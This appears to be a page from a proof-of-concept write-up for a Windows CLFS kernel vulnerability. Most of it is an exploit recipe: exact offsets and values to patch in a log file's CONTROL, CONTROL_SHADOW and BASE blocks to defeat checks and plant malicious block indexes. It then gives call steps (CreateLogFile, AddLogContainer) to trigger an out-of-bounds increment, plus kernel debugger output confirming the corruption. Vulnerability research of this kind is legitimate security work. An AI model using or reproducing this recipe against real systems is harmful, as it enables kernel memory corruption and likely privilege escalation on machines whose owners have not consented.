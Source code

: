     **CONTROL Block**
    - 0x6 → Control.ValidSectors: 1
      - This causes `ValidSectors < TotalSectors`, failing `ValidSectors == TotalSectors` check
      - Causes ClfsDecodeBlock to fail
      - Leaves zeroed checksum in memory
    - 0x70 → Control.DumpCount: 2
      - Must be >= ControlShadow.DumpCount
      - This ensures CONTROL block is attempted to be read first, corrupting the checksum
    - 0x84 → Control.eExtendState: 2
      - We use enum ClfsExtendStateFlushingBlock to pass the checks in `OpenImage` and `ExtendMetadataBlock`
      - This lets us reach `WriteMetadataBlock`
    - 0x88 → Control.iExtendBlock: 2
      - Nonzero value n, 1 < n < 6
      - By default, there are 2 blocks, so indexes 0 and 1 already exist
    - 0x8A → Control.iFlushBlock: 2
      - Nonzero value n, 1 < n < 6, n >= `iExtendBlock`
      - We set this to be equals to `iExtendBlock` such that execution ends upon one execution of `WriteMetadataBlock`
    - 0x94 → Control.cExtendSectors: 1
      - Must be >= 1 to trigger `ExtendMetadataBlock`

    **CONTROL_SHADOW Block**:
    - 0x6 → ControlShadow.ValidSectors: 2
      - Ensure that it matches TotalSectors to pass `ValidSectors == TotalSectors` check
    - 0x470 → ControlShadow.DumpCount: 1
      - Must be <= Control.DumpCount
      - This ensures CONTROL block is attempted to be read first
    - 0x484 → ControlShadow.eExtendState: 2 (same as CONTROL)
    - 0x488 → ControlShadow.iExtendBlock: 0xBEEF
      - Can be any malicious value
    - 0x48A → ControlShadow.iFlushBlock: 0xDEAD
      - Can be any malicious offset

    **BASE Block**:
    - 0x1B98 → BaseBlock.cbSymbolZone: 0x6543
      - Must be a value large enough to cause `AllocSymbol` error `0xC0000023`
      - Cannot be too large or it will be caught by other code

    **BASE_SHADOW Block**:
    - 0x9598 → BaseShadow.cbSymbolZone: 0x6543 (same as BaseBlock)

3. Call `CreateLogFile` to corrupt CONTROL block
4. Call `AddLogContainer` on returned handle to get OOB increment

In my POC, I do the following:
1. Call `CreateLogFile` with `OPEN_ALWAYS` to create a log file
2. Open the log file with `fopen` and patch values as seen above
3. Call `CreateLogFile` again to open the patched log file, and keep the handle
4. Call `AddLogContainer` on the handle from #3

We can step into the debugger and see our malicious `iExtendBlock` and `iFlushBlock` in memory by setting breakpoints at `ExtendMetadataBlock`, `GetControlRecord` and `WriteMetadataBlock`, then once we reach `ExtendMetadataBlock` -> `GetControlRecord` -> `WriteMetadataBlock`, we take the value in $rcx (`CClfsBaseFilePersisted` object), examine the object and take the value at offset 0x30 (`pbImage`), then examine the pointer at either offset 0x0 or 0x30 (`rgBlocks` array -> CONTROL/CONTROL_SHADOW struct pointer) to see the contents of CONTROL loaded into memory.
```
2: kd> dps ffffc607`1568d280 l12
ffffc607`1568d280  00020002`00010015
ffffc607`1568d288  00000000`00000000
ffffc607`1568d290  00000000`00000002
ffffc607`1568d298  ffffffff`00000000
ffffc607`1568d2a0  ffffffff`00000000
ffffc607`1568d2a8  00000000`00000070
ffffc607`1568d2b0  00000000`00000000
```